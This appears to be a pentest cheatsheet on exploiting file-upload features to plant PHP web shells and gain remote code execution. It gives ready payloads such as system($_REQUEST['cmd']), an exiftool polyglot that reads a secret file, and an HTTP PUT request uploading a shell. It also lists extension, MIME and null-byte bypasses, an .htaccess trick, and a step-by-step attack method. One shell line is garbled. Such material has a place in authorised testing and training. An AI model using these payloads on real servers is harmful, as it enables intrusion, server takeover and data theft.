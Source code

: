 # 🧠 File Upload Exploitation - Advanced Cheatsheet

https://github.com/six2dez/pentest-book/blob/master/enumeration/web/upload-bypasses.md

## General
- 🔁 **Overwrite files**: Overwrite existing files if filename or path is not properly handled.
- 🐘 **DoS via File Size / Brute Force**: Upload large files or repeatedly upload to exhaust server resources.

## 🔍 Server-side Behavior
- `Content-Type`: Can be forged to bypass restrictions.
- `Content-Disposition`: Controls the uploaded file’s name.
- MIME Types: Weak validation can be bypassed (`image/png` with PHP payload).

---

## 🐚 Web Shell Uploads

### 01 - RCE via Direct Web Shell
- Upload `.php` file with payload like `<?php system($_REQUEST["cmd"]); ?>`
- Access via public URL: `/files/avatars/webshell.php?cmd=id`

### 02 - Bypass via `Content-Type`
- Set `Content-Type: image/png`
- Embed PHP code inside the image — server may still execute it.
```t
## 🖼️ Common Image Types (often whitelisted)
image/jpeg
image/png
image/gif
image/bmp
image/webp
image/svg+xml ← 🔥 useful for XSS payloads in SVG

## 📄 Document Types (used for XXE, metadata injection, etc.)
application/pdf
application/msword
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.wordprocessingml.document (.docx)
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet (.xlsx)
text/plain ← often accepted, can hide PHP
text/html ← for stored XSS if rendered

## 🧙 Script / Dangerous Types (might be blocked but useful if accepted)
application/x-php
application/x-httpd-php
application/x-perl
application/x-python
application/javascript
text/javascript
text/x-shellscript
text/x-php ← used in some environments

## 🛠️ Polyglot / Edge Case Types
application/octet-stream ← generic binary, may bypass checks
multipart/form-data ← standard for file uploads
application/x-www-form-urlencoded ← sometimes misused

## 🧼 Obfuscation / Evasion Tricks
image/png (used with PHP code inside)
image/jpeg (same trick)
text/plain with PHP code
application/json (some servers parse it insecurely)
application/xml (XXE)
```


### 03 - Path Traversal
- Upload using `filename="../webshell.php"`
- Bypasses restricted folders and places file in an executable path.

### 04 - Obfuscated Extension
- Use tricks like: `ws.php%00.jpg`, `shell.php.jpg`, `.php;.jpg`
- Null byte (`%00`) truncates extension in some servers.

### 05 - Polyglot Web Shell
- Use **magic bytes** and **malicious metadata** (`exiftool`, `cat`)
- Files appear as images but execute code.
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hat_only.png -o polyglot.php
```

### 06 - PUT method
```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php system($_REQUEST["cmd"]); ?>
```



---



## 🧱 Protections & Bypasses

### 🧨 Extension Blacklist Bypass
```md
.php, .php3, .php5, .phtml, .phps, .asp, .aspx, .jsp, .cgi
.php.jpg, .php.png, .php.txt
exploit.php%00.jpg, exploit.asp;.jpg
exploit.p.phphp, .shell.php.jpg
🔐 .htaccess Trick
Upload .htaccess to force server to treat .txt, .html as PHP:


AddType application/x-httpd-php .html .htm .txt
📎 Other Non-RCE Vectors
Stored XSS via File Upload
Upload .html or .svg with <script> tag.

If the file is accessible under the same origin, stored XSS is possible.

XXE via File Parsing
Servers processing XML (e.g. .doc, .xls, .odt) may be vulnerable to XXE attacks.

🧪 Tips & Reminders
🧪 Fuzz file paths post-upload to locate the shell.

🕵️‍♂️ Check server responses (Location, Content-Disposition).

🐚 Minimal shell: <?=\$_GET[0]`; ?>accessed via/?0=id`

📌 Quick Methodology
Try direct .php upload for RCE.

Bypass MIME with forged image/png.

Use path traversal to escape restricted dirs.

Evade with double extension or null byte.

Create polyglot with crafted metadata.

Upload .htaccess to enable unexpected extensions.

If RCE fails, go for XSS or XXE.